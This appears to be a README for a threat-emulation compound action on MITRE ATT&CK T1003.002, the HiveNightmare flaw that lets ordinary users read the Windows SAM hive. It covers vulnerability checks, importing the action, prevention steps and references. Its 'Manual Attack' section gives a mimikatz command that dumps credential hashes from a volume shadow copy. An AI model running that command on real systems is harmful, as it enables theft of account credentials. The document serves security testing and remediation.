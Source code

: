 # T1003.002 - OS Credential Dumping: Security Account Manager

On July 19, 2021, @jonasLyk noticed the SAM file is readable by all users. Upon further investigation, a number of Windows versions allowed any user to read the SAM file.

## Check if system is vulnerable
As a non-administrative user, run the following in a command prompt
- ```whoami /groups```
- ```sc query vss```
- ```vssadmin list shadows```
- ```icacls %windir%\system32\config\sam```

A vulnerable system will report ```BUILTIN\Users:(I)(RX)```

## Import the Compound Action
1. Click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack
1. Create a new campaign
2. Select the Compound Action for T1003.002
3. Note: you may need to change the HarddiskVolumeShadowCopy#

## Manual Attack
- ```mimikatz "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\\sam"```

## Prevention
Restrict access to sam, system, and security files and remove VSS shadow copies. On a command prompt with administrative privileges:
- ```icacls %windir%\system32\config\sam /remove "Users"```
- ```icacls %windir%\system32\config\security /remove "Users"```
- ```icacls %windir%\system32\config\system /remove "Users"```
- ```vssadmin delete shadows /for=c: /Quiet```
- ```vssadmin list shadows```

## References
- https://twitter.com/jonasLyk/status/1417205166172950531
- https://www.kb.cert.org/vuls/id/506989
- https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5
- https://github.com/GossiTheDog/HiveNightmare